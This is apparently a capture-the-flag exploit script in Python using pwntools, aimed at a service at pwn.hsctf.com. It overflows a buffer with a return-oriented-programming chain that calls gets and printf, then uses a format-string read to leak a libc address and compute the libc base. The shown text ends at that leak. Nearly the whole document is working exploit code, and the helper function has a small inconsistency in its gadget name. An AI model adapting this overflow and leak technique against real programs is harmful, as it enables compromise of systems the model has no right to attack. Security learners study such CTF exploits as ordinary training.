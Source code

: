 ```python

  def call(f, a1, a2, a3):
    out = ''
    if a1 != None:
      out += p64(pop_rdi)+p64(a1)
    if a2 != None:
      out += p64(pop_rsi_r15)+p64(a2)*2
    if a3 != None:
      if pop_rdx == 0:
        print 'RDX GADGET NOT FOUND'
        exit(-1)
      else:
        out += p64(rdx)+p64(a3)
    return out+p64(f)

def attach_gdb():
  gdb.attach(sh)

if DEBUG:
  context.log_level = 'debug'

def start():
  global sh
  if len(argv) < 2:
    stdout = process.PTY
    stdin = process.PTY

    sh = process(BINARY, stdout=stdout, stdin=stdin)

    # if DEBUG:
    #   attach_gdb()

    REMOTE = False
  else:
    sh = remote('pwn.hsctf.com', 2345)
    REMOTE = True


start()
bin_sh_addr = 0x402031
gets_got = 0x0000000000404030
printf_plt = 0x401050
gets_plt = 0x401060
vuln_addr = 0x401166
format_str_addr = 0x0000000000404730

payload = 'a'*(8+8)
payload += call(gets_plt, format_str_addr, None, None)
payload += call(printf_plt, format_str_addr, None, None)
payload += p64(vuln_addr)
payload = payload.ljust(0x40, 'a')
payload += p64(gets_got)
pause()
sh.sendlineafter(': ', payload)

# fmt = ''
# for i in range(300):
#  fmt += '%p '
# sh.sendline(fmt)

sh.sendline('%6$s')

libc_base = u64(sh.recvuntil('Dude')[:6].ljust(8,'\x00'))-0x000000000006ed80
```